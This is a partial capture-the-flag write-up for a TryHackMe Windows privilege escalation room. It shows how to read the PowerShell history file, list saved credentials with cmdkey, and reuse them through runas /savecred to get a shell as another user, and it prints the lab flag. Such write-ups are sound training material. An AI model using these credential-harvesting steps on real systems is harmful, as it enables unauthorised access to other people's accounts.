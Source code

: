 # About This Module
Module link: https://tryhackme.com/room/windowsprivesc20

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/08/2023

# PowerShell History
1. Started this task's machine
2. `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` from the compromised Windows machine
```PowerShell
C:\Users\thm-unpriv>%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

![]()

# Saved Windows Credentials
1. Started this room's machine
2. `cmdkey /list`
```PowerShell
C:\Users\thm-unpriv>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=WPRIVESC1\mike.katz
    Type: Domain Password
    User: WPRIVESC1\mike.katz
```
3. `runas /savecred /user:WPRIVESC1\mike.katz cmd.exe`
```PowerShell
C:\Users\thm-unpriv>runas /savecred /user:WPRIVESC1\mike.katz cmd.exe
Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
```
```PowerShell
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

4. `dir <FLAG TEXT FILE PATH>`
```PowerShell
C:\Windows\system32>type C:\Users\mike.katz\Desktop\flag.txt
THM{WHAT_IS_MY_PASSWORD}
```

5. `PowerShell`
```PowerShell
C:\Windows\system32>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```
6. `(Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\InetStp').MajorVersion`
```PowerShell
PS C:\Windows\system32> (Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\InetStp').MajorVersion
10
```

# IIS Configuration

# Retrieve Credentials from Software: PuTTY
